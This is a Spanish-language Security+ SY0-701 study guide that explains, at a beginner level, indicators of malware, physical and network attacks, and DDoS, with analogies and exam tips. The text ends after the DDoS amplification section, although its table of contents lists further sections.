







> **Estado:** 🟢 Completo
> **Última actualización:** 2026-06
> **Nivel:** Principiante — se explican los conceptos desde cero

---

- [1. Indicadores de Ataques de Malware](#1-indicadores-de-ataques-de-malware)
  - [Clasificación de Malware](#clasificación-de-malware)
    - [Clasificación por **Vector** (cómo se propaga)](#clasificación-por-vector-cómo-se-propaga)
    - [Clasificación por **Payload** (qué hace)](#clasificación-por-payload-qué-hace)
  - [Virus Informáticos](#virus-informáticos)
    - [Tipos de Virus por mecanismo](#tipos-de-virus-por-mecanismo)
    - [Términos clave](#términos-clave)
  - [Gusanos Informáticos y Malware Sin Archivos (Fileless)](#gusanos-informáticos-y-malware-sin-archivos-fileless)
    - [Diferencia clave: Virus vs. Gusano](#diferencia-clave-virus-vs-gusano)
    - [Malware Sin Archivos (Fileless Malware)](#malware-sin-archivos-fileless-malware)
    - [Clasificaciones relacionadas](#clasificaciones-relacionadas)
  - [Spyware y Keyloggers](#spyware-y-keyloggers)
    - [Jerarquía de Monitoreo Malicioso](#jerarquía-de-monitoreo-malicioso)
    - [Tipos de Keyloggers](#tipos-de-keyloggers)
  - [Puertas Traseras (Backdoors) y RATs](#puertas-traseras-backdoors-y-rats)
    - [Definiciones](#definiciones)
    - [Cadena de ataque con RAT/Botnet](#cadena-de-ataque-con-ratbotnet)
    - [Comunicación C2: Protocolos usados](#comunicación-c2-protocolos-usados)
  - [Rootkits](#rootkits)
    - [Niveles de Privilegio (Anillos de CPU)](#niveles-de-privilegio-anillos-de-cpu)
    - [Capacidades de un Rootkit](#capacidades-de-un-rootkit)
    - [Persistencia sin detección](#persistencia-sin-detección)
  - [Ransomware, Malware Criptográfico y Bombas Lógicas](#ransomware-malware-criptográfico-y-bombas-lógicas)
    - [Tipos de Ransomware](#tipos-de-ransomware)
    - [Cryptojacking (Criptosecuestro)](#cryptojacking-criptosecuestro)
    - [Bombas Lógicas](#bombas-lógicas)
  - [TTP e IoC](#ttp-e-ioc)
    - [Jerarquía TTP (Táctica, Técnica, Procedimiento)](#jerarquía-ttp-táctica-técnica-procedimiento)
    - [IoC vs IoA](#ioc-vs-ioa)
    - [Recursos clave](#recursos-clave)
  - [Indicadores de Actividades Maliciosas](#indicadores-de-actividades-maliciosas)
    - [Resumen de Indicadores por Categoría](#resumen-de-indicadores-por-categoría)
    - [Técnicas de Análisis](#técnicas-de-análisis)
- [2. Indicadores de Ataques Físicos y de Red](#2-indicadores-de-ataques-físicos-y-de-red)
  - [Ataques Físicos](#ataques-físicos)
    - [Tipos de Ataques Físicos](#tipos-de-ataques-físicos)
    - [RFID y NFC: Ataques a Credenciales Físicas](#rfid-y-nfc-ataques-a-credenciales-físicas)
  - [Ciclo de Vida de Ataques de Red](#ciclo-de-vida-de-ataques-de-red)
  - [Ataques DDoS (Denegación de Servicio Distribuido)](#ataques-ddos-denegación-de-servicio-distribuido)
    - [Tipos de DDoS](#tipos-de-ddos)
    - [SYN Flood en detalle](#syn-flood-en-detalle)
    - [DRDoS (DoS Distribuido Reflejado)](#drdos-dos-distribuido-reflejado)
    - [Amplificación](#amplificación)
  - [Ataques En Ruta (On-Path / AitM)](#ataques-en-ruta-on-path--aitm)
    - [ARP Poisoning (Envenenamiento de ARP)](#arp-poisoning-envenenamiento-de-arp)
  - [Ataques al DNS](#ataques-al-dns)
    - [Tipos de Ataques DNS](#tipos-de-ataques-dns)
    - [Envenenamiento de Caché: Cliente vs. Servidor](#envenenamiento-de-caché-cliente-vs-servidor)
    - [DNS como Canal C2](#dns-como-canal-c2)
  - [Ataques Inalámbricos](#ataques-inalámbricos)
    - [Rogue Access Point y Evil Twin](#rogue-access-point-y-evil-twin)
    - [DoS Inalámbrico](#dos-inalámbrico)
    - [Replay y Recuperación de Claves](#replay-y-recuperación-de-claves)
  - [Ataques de Contraseña](#ataques-de-contraseña)
    - [Clasificación por Modalidad](#clasificación-por-modalidad)
    - [Tipos de Ataques de Contraseña](#tipos-de-ataques-de-contraseña)
    - [Archivos de credenciales objetivo (Windows)](#archivos-de-credenciales-objetivo-windows)
  - [Ataques de Reproducción de Credenciales (Credential Replay)](#ataques-de-reproducción-de-credenciales-credential-replay)
    - [LSASS y Caché de Credenciales](#lsass-y-caché-de-credenciales)
    - [Ataques por Tipo](#ataques-por-tipo)
    - [Proceso Pass-the-Hash](#proceso-pass-the-hash)
  - [Ataques Criptográficos](#ataques-criptográficos)
    - [Ataque de Degradación (Downgrade)](#ataque-de-degradación-downgrade)
    - [Ataque de Colisión](#ataque-de-colisión)
    - [Ataque de Cumpleaños (Birthday Attack)](#ataque-de-cumpleaños-birthday-attack)
  - [Indicadores de Código Malicioso](#indicadores-de-código-malicioso)
- [3. Indicadores de Ataques a Aplicaciones](#3-indicadores-de-ataques-a-aplicaciones)
  - [Ataques a las Aplicaciones](#ataques-a-las-aplicaciones)
    - [Contextos de Ataque](#contextos-de-ataque)
    - [Escalada de Privilegios](#escalada-de-privilegios)
    - [Buffer Overflow (Desbordamiento de Búfer)](#buffer-overflow-desbordamiento-de-búfer)
  - [Ataques de Reproducción de Sesión (Session Replay)](#ataques-de-reproducción-de-sesión-session-replay)
    - [Cómo se roban las cookies/tokens](#cómo-se-roban-las-cookiestokens)
    - [Session Prediction](#session-prediction)
  - [Ataques de Falsificación (Forgery)](#ataques-de-falsificación-forgery)
    - [CSRF vs SSRF](#csrf-vs-ssrf)
    - [CSRF — Flujo del Ataque](#csrf--flujo-del-ataque)
    - [SSRF — Flujo del Ataque](#ssrf--flujo-del-ataque)
  - [Ataques por Inyección](#ataques-por-inyección)
    - [Inyección XML / XXE (Entidad Externa XML)](#inyección-xml--xxe-entidad-externa-xml)
    - [Inyección LDAP](#inyección-ldap)
    - [Tipos de Ataques de Inyección (Resumen)](#tipos-de-ataques-de-inyección-resumen)
  - [Directory Traversal e Inyección de Comandos](#directory-traversal-e-inyección-de-comandos)
    - [Directory Traversal (Salto de Directorio)](#directory-traversal-salto-de-directorio)
    - [Command Injection (Inyección de Comandos)](#command-injection-inyección-de-comandos)
  - [Análisis de URL](#análisis-de-url)
    - [Componentes de una URL con parámetros](#componentes-de-una-url-con-parámetros)
    - [Métodos HTTP Principales](#métodos-http-principales)
    - [Codificación de Porcentaje (Percent Encoding)](#codificación-de-porcentaje-percent-encoding)
  - [Registros de Servidor Web](#registros-de-servidor-web)
    - [Códigos HTTP como Indicadores](#códigos-http-como-indicadores)
    - [Indicadores en Logs de Servidor Web](#indicadores-en-logs-de-servidor-web)
- [4. Glosario](#4-glosario)
- [5. Ataques y Sus Indicadores](#5-ataques-y-sus-indicadores)

---

# 1. Indicadores de Ataques de Malware

## Clasificación de Malware

> **Analogía:** El malware es como un intruso en tu casa. Algunos entran rompiendo la puerta (virus), otros te engañan para que los invites (troyanos), y algunos ya vivían ahí cuando compraste la casa (PUP/bloatware).

### Clasificación por **Vector** (cómo se propaga)

| Tipo | Vector | Consentimiento del usuario |
|------|--------|---------------------------|
| **Virus** | Infecta ejecutables existentes | Ninguno |
| **Gusano (Worm)** | Explota vulnerabilidades de red | Ninguno |
| **Troyano** | Disfrazado como software legítimo | Engañado |
| **PUP/PUA** (Programa/Aplicación Potencialmente No Deseado) | Incluido en instaladores | Ambiguo (EULA confuso) |

### Clasificación por **Payload** (qué hace)

- **Spyware** — monitorea actividad del usuario
- **Rootkit** — opera con privilegios máximos del sistema
- **RAT** (Troyano de Acceso Remoto) — control remoto encubierto
- **Ransomware** — cifra datos y exige rescate



> **👉 Enfoque de Examen SY0-701:**
> CompTIA distingue entre vector y payload. Una pregunta típica: *"Un atacante instala software que parece una utilidad legítima pero abre acceso remoto — ¿qué tipo de malware es?"* → **Troyano/RAT**. Distractor común: confundir PUP con troyano. La diferencia clave es la **intención** y el **consentimiento**: PUP puede tener algún nivel de consentimiento (aunque confuso); troyano nunca lo tiene.

## Virus Informáticos

> **Analogía:** Un virus biológico necesita una célula huésped para reproducirse. El virus informático necesita un archivo ejecutable huésped.

### Tipos de Virus por mecanismo

| Tipo | Cómo funciona | Indicador clave |
|------|--------------|-----------------|
| **No residente / File infector** | Se ejecuta con el proceso host, infecta otros ejecutables en disco | Archivos ejecutables con tamaño inesperadamente mayor |
| **Residente en memoria** | Crea proceso propio en RAM, persiste tras cerrar el host | Proceso activo sin archivo en disco |
| **Boot sector** | Se escribe en el sector de arranque del disco o tabla de particiones | El SO no arranca normalmente; activo en pre-boot |
| **Script/Macro** | Usa motores de scripting: `PowerShell`, `WMI`, `VBA`, `JavaScript` en PDFs | Macros habilitadas en documentos Office, scripts sospechosos |

### Términos clave

- **Multipartito** — usa múltiples vectores simultáneamente
- **Polimórfico** — cambia su código dinámicamente para evadir detección

> **⚠️ Ejemplo real:** Archivo adjunto con doble extensión: `Docx_2017082407_PDF.jar` — el `.jar` es el ejecutable real, el nombre intenta parecer un `.pdf`.

> **👉 Enfoque de Examen SY0-701:**
> Pregunta frecuente: *"¿Qué tipo de virus sobrevive aunque se elimine el archivo original?"* → **Residente en memoria**. Otro distractor: confundir **polimórfico** (cambia código) con **metamórfico** (se reescribe completamente). CompTIA SY0-701 se enfoca más en polimórfico. Los virus de macro sobre `VBA` en Office son IoC frecuentes en escenarios de phishing.

## Gusanos Informáticos y Malware Sin Archivos (Fileless)

### Diferencia clave: Virus vs. Gusano

| Característica | Virus | Gusano |
|---------------|-------|--------|
| Necesita acción del usuario | ✅ Sí | ❌ No |
| Se propaga por red | Solo si el usuario lo distribuye | ✅ Automáticamente |
| Necesita archivo huésped | ✅ Sí | ❌ No |
| Ejemplo histórico | — | Code Red (buffer overflow en IIS), Conficker |

### Malware Sin Archivos (Fileless Malware)

> **Analogía:** En lugar de traer su propia palanca para entrar, el ladrón usa las llaves que ya están colgadas en la pared de tu casa (herramientas del sistema legítimas).

Características del malware fileless:

- **No escribe código en disco** — reside en memoria RAM
- Puede modificar el **registro** para persistencia (técnica de disco mínima)
- Usa **Living Off The Land (LOTL)** — explota herramientas legítimas del SO:
  - `PowerShell`
  - `WMI` (Instrumentación de Administración de Windows)
- El shellcode se recompila con ofuscación para evadir escaneos

### Clasificaciones relacionadas

| Término | Significado |
|---------|-------------|
| **APT** (Amenaza Persistente Avanzada) | Ataque sofisticado y prolongado |
| **AVT** (Amenaza Volátil Avanzada) | Malware que opera solo en memoria |
| **LOC** (Ataque de Baja Observabilidad) | Diseñado para pasar desapercibido |
| **LOTL** (Living Off the Land) | Usa herramientas legítimas del SO |

> **👉 Enfoque de Examen SY0-701:**
> Pregunta tipo: *"Un atacante usa PowerShell y WMI sin escribir archivos al disco — ¿cómo se clasifica?"* → **Fileless malware / LOTL**. Distractor: confundir con APT (APT describe el actor/campaña, no la técnica específica). LOTL es una técnica, APT es una categoría de amenaza.

## Spyware y Keyloggers

### Jerarquía de Monitoreo Malicioso



### Tipos de Keyloggers

| Tipo | Implementación | Indicador |
|------|---------------|-----------|
| **Software** | Proceso en background; también como script web que transmite a C2 | Proceso sospechoso, tráfico a destinos externos |
| **Hardware USB** | Adaptador entre teclado y puerto, almacena localmente o WiFi | Inspección física del dispositivo |
| **Overlay ATM** | Superposición sobre teclado PIN de cajero | Solo detectables por inspección |
| **Wireless sniffer** | Captura tráfico inalámbrico de teclados Bluetooth/RF | Análisis espectro radio |

> **👉 Enfoque de Examen SY0-701:**
> Pharming (redirección DNS) es una técnica de **spyware**, no un ataque DNS independiente en este contexto. CompTIA puede preguntar: *"¿Qué se instala junto a software gratuito y redirige búsquedas web?"* → **Adware**. Keylogger hardware es una técnica de **ataque físico** aunque use software para exfiltrar.

## Puertas Traseras (Backdoors) y RATs

### Definiciones

- **Backdoor (Puerta trasera):** Cualquier método de acceso que eluda la autenticación habitual y proporcione control administrativo remoto
- **RAT** (Remote Access Trojan / Remote Administration Tool): Malware backdoor que imita software de control remoto legítimo

### Cadena de ataque con RAT/Botnet



| Término | Definición |
|---------|-----------|
| **Zombie** | Host comprometido bajo control remoto |
| **Bot** | Script/herramienta automatizada maliciosa en el zombie |
| **Botnet** | Red de bots bajo control de mismo malware |
| **Herder/Pastor** | Programa que gestiona la botnet |
| **C2 / C&C** (Comando y Control) | Infraestructura que controla los hosts comprometidos |

### Comunicación C2: Protocolos usados

- Histórico: `IRC` (Internet Relay Chat)
- Moderno: Scripts embebidos en tráfico `HTTPS` o `DNS` (difícil de detectar)
- Indicador principal: **conexiones de red anómalas a IPs externas**

> **👉 Enfoque de Examen SY0-701:**
> RAT puede significar **Remote Access Trojan** O **Remote Administration Tool** — el contexto determina si es malicioso. CompTIA pregunta sobre C2 como indicador de RAT. Distractor: confundir backdoor (método de acceso) con RAT (tipo específico de malware backdoor). Una backdoor puede crearse por mala configuración o código de desarrollador, no solo por malware.

## Rootkits

> **Analogía:** Un rootkit es como un ladrón que no solo entra a tu casa, sino que se hace pasar por el propietario y cambia las cerraduras. Las herramientas de seguridad que ejecutas desde dentro de la casa ya no funcionan porque el ladrón controla lo que ves.

### Niveles de Privilegio (Anillos de CPU)

```
Ring 0 → Kernel (más privilegiado) ← AQUÍ opera el rootkit
Ring 1 → Controladores / I/O
Ring 2 → Controladores / I/O
Ring 3 → Procesos de usuario (menos privilegiado)
```

| Nivel de malware | Privilegios | Ocultación posible |
|-----------------|------------|-------------------|
| Troyano de usuario estándar | Perfil de usuario | Parcial (aparece en taskman) |
| Troyano con admin local | Administrador local | Puede usar nombres similares (`rund1132.exe` vs `rundll32.exe`) |
| **Rootkit** | SYSTEM / Ring 0 | Total — puede ocultar procesos, logs, conexiones |

### Capacidades de un Rootkit

- Modifica `Explorer`, `taskmgr`, `tasklist`, `netstat`, `ps`, `top` para ocultar su presencia
- Limpia registros del sistema
- Puede residir en **firmware** (UEFI) — sobrevive a formateo completo
  - Ejemplo real: rootkits UEFI `DarkMatter` y `Quark Matter` (agencias de inteligencia EE.UU. → MacBooks)

### Persistencia sin detección

Para persistir, un troyano normal necesita:
- Entradas de registro
- Crearse como servicio  
→ Ambos **detectables fácilmente**

Un rootkit usa privilegios SYSTEM para ocultar todo esto.

> **👉 Enfoque de Examen SY0-701:**
> Pregunta clave: *"¿Qué tipo de malware puede modificar las herramientas del sistema operativo para ocultar su propia presencia?"* → **Rootkit**. Distractor: confundir rootkit con backdoor. La diferencia es el **nivel de privilegio**: rootkit opera en SYSTEM/Ring 0. Rootkit en firmware = **imposible eliminarlo formateando el disco**, esto es un dato muy preguntado.

## Ransomware, Malware Criptográfico y Bombas Lógicas

### Tipos de Ransomware

| Tipo | Mecanismo | Mitigación |
|------|----------|-----------|
| **Scareware** | Mensajes de alerta falsos, bloquea interfaz | Relativamente fácil de solucionar |
| **Ransomware de bloqueo** | Bloquea acceso al sistema de archivos con shell alternativo | Moderadamente difícil |
| **Ransomware criptográfico** | Cifra archivos con clave privada del atacante | Solo backups actualizados funcionan |

- **Ejemplo icónico:** WannaCry (cifra archivos, pide ~$300 en Bitcoin)
- **Ejemplo de ransomware cripto:** CryptoLocker (busca archivos, timer con destrucción de clave)
- **Métodos de pago:** Bitcoin, criptomonedas, transferencia bancaria, líneas premium

### Cryptojacking (Criptosecuestro)

> **Analogía:** Alguien entra a tu casa, no roba nada visible, pero deja encendida tu calefacción al máximo para calentar la suya. Tu factura de luz sube, pero no ves qué la causa.

- **Cryptomining malicioso** = usa recursos del host víctima para minar criptomonedas
- Indicador: **CPU alta de forma continua y sin explicación** (gráficas de CPU raramente bajan del 50%)
- Se ejecuta frecuentemente a través de **botnets**

### Bombas Lógicas

| Tipo | Disparador |
|------|-----------|
| **Bomba de tiempo** | Fecha/hora preconfigurada |
| **Bomba lógica** | Evento del sistema o usuario |

- No se activan automáticamente → **difíciles de detectar por antivirus**
- Ejemplo: admin descontento programa trampa que se activa si su cuenta es eliminada
- También se denominan **minas**

> **👉 Enfoque de Examen SY0-701:**
> Distinguir entre tipos de ransomware es frecuente. Scareware ≠ ransomware criptográfico. La pregunta *"¿Qué malware cifra los datos y exige rescate?"* → **Ransomware criptográfico**. Para **bomba lógica**, la pista en el escenario es que el código espera un evento específico para activarse. Cryptojacking se detecta por **consumo anómalo de CPU/RAM**, no por pérdida de archivos.

## TTP e IoC

### Jerarquía TTP (Táctica, Técnica, Procedimiento)



| Nivel | Descripción | Ejemplo |
|-------|-------------|---------|
| **Táctica** | ¿Qué quiere lograr? | Reconocimiento, persistencia, exfiltración |
| **Técnica** | ¿Cómo progresa en esa táctica? | Escaneo activo, explotación de vulnerabilidad |
| **Procedimiento** | ¿Exactamente cómo y con qué herramienta? | Nmap con flags `-sV -O` contra rango 10.0.0.0/24 |

### IoC vs IoA

| Término | Significado | Cuándo aplica |
|---------|------------|--------------|
| **IoC** (Indicador de Compromiso) | Evidencia de ataque exitoso | Post-compromiso |
| **IoA** (Indicador de Ataque) | Evidencia de intento de intrusión en curso | Durante el ataque |

### Recursos clave

- **MITRE ATT&CK** (`attack.mitre.org`) — base de datos de TTPs documentados
- Las herramientas modernas de escaneo integran feeds de TTPs para detección automática

> **👉 Enfoque de Examen SY0-701:**
> Pregunta directa: *"¿Qué describe la forma exacta en que un actor usa una herramienta específica?"* → **Procedimiento**. IoC vs IoA: IoC es evidencia **posterior** al ataque exitoso; IoA es indicador de ataque **activo**. MITRE ATT&CK es la referencia estándar — mencionarlo en el examen es señal de respuesta correcta.

## Indicadores de Actividades Maliciosas

### Resumen de Indicadores por Categoría

| Categoría | Indicadores |
|-----------|------------|
| **Consumo de recursos** | CPU >90% continua, memory leak, I/O de disco anómalo, alto ancho de banda |
| **Sistema de archivos** | Archivos temporales sospechosos, metadatos de modificación/acceso anómalos, accesos denegados registrados |
| **Inaccesibilidad de recursos** | Host/red/archivo/DB no disponible (→ DoS), herramientas de escaneo desactivadas |
| **Vulneración de cuenta** | Bloqueo de cuenta, sesiones concurrentes, **viaje imposible** |
| **Registro de logs** | Pérdida/brechas de registros, marcas de tiempo manipuladas, registro fuera de ciclo |

### Técnicas de Análisis

- **Sandbox:** Sistema aislado de red de producción para ejecutar código sospechoso con logging de filesystem, registro y red
- **Sheep dip:** Host aislado para probar software y medios externos antes de autorizar su uso en producción

> **👉 Enfoque de Examen SY0-701:**
> **Viaje imposible** (impossible travel) es un indicador muy preguntado — aparece cuando una cuenta inicia sesión desde ubicaciones geográficamente imposibles en un tiempo corto. La **pérdida de logs** sin brecha obvia es un indicador de actor sofisticado que limpió sus huellas. Sandbox vs. sheep dip: sandbox = análisis de malware; sheep dip = validación pre-entrada de medios externos.

# 2. Indicadores de Ataques Físicos y de Red

## Ataques Físicos

### Tipos de Ataques Físicos

| Tipo | Descripción | Indicador |
|------|-------------|-----------|
| **Fuerza bruta** | Daño de hardware (DoS físico), forzar cerraduras/entradas | Signos visibles de entrada forzada, hardware dañado |
| **Ambiental** | Destruir cableado eléctrico, cortar cables de red, interrumpir refrigeración | Pérdida de servicios, temperatura elevada en racks |
| **Clonación RFID** | Duplicar credenciales de tarjeta de acceso | Viaje imposible, uso simultáneo de tarjeta, patrones de acceso anómalos |

### RFID y NFC: Ataques a Credenciales Físicas

> **Analogía:** Es como sacar una fotocopia de tu llave mientras la tienes en el bolsillo, sin que lo notes.

- **RFID** (Identificación de Frecuencia de Radio): etiquetas pasivas para control de acceso sin contacto
- **Clonación de tarjeta:** copia de tarjeta perdida/robada sin protección criptográfica
- **Skimming:** lector falsificado portátil captura la credencial → programa duplicado
- **NFC** (Comunicación de Campo Cercano): derivado de RFID, bidireccional, muy corta distancia

> **⚠️ Vulnerabilidad:** Solo afecta tarjetas "tontas" que transmiten tokens estáticos. Tarjetas con criptoprocesamiento son resistentes.

> **👉 Enfoque de Examen SY0-701:**
> Clonación vs. skimming: **clonación** requiere acceso físico a la tarjeta; **skimming** captura datos sin tocar la tarjeta con un lector proximal. Ataques ambientales a sistemas HVAC (calefacción/ventilación/AC) como vector de acceso a redes corporativas es un escenario real preguntado.

## Ciclo de Vida de Ataques de Red



| Fase | Técnicas | Indicadores de Detección |
|------|----------|--------------------------|
| **Reconocimiento** | Escaneo de host/servicio/SO, fingerprinting | Picos de tráfico de escaneo, múltiples intentos de conexión |
| **Recolección de credenciales** | Sniffing, brute force, phishing | Intentos de login fallidos masivos |
| **DoS** | Consumo de BW, agotamiento de recursos | Servicio no disponible, alto tráfico |
| **C2 / Baliza** | HTTPS cifrado, DNS tunneling | Conexiones a IPs anómalas, destinos en países sin acuerdos legales |
| **Movimiento lateral** | PsExec, PowerShell remoto | Logins anómalos de cuentas, uso de privilegios inusual |
| **Exfiltración** | Transferencias grandes, DNS tunneling | Grandes transferencias de datos, anomalías en tráfico DNS |

> **👉 Enfoque de Examen SY0-701:**
> El ciclo es **iterativo**, no lineal — el atacante puede volver a fases anteriores desde dentro de la red. Reconocimiento interno es distinto al externo. **Pivoting** = moverse desde un host comprometido hacia otros segmentos de red.

## Ataques DDoS (Denegación de Servicio Distribuido)

### Tipos de DDoS



### SYN Flood en detalle

```
Cliente (bot) → SYN → Servidor
Servidor → SYN/ACK → Cliente (bot)
Cliente (bot) ✗ NO ENVÍA ACK
→ Servidor mantiene conexión pendiente en tabla de estados
→ Tabla llena → No puede atender tráfico legítimo
```

### DRDoS (DoS Distribuido Reflejado)

- El atacante **suplanta la IP de la víctima** al iniciar conexiones con servidores legítimos de terceros
- Los servidores de terceros envían sus respuestas SYN/ACK **a la víctima**
- Beneficio para el atacante: **menor botnet necesaria** + dificulta identificar origen real

### Amplificación

| Protocolo explotado | Factor de amplificación típico |
|---------------------|-------------------------------|
| `DNS` (Sistema de Nombres de Dominio) | ~70x |
| `NTP` (Protocolo de Tiempo de Red) | ~556x |
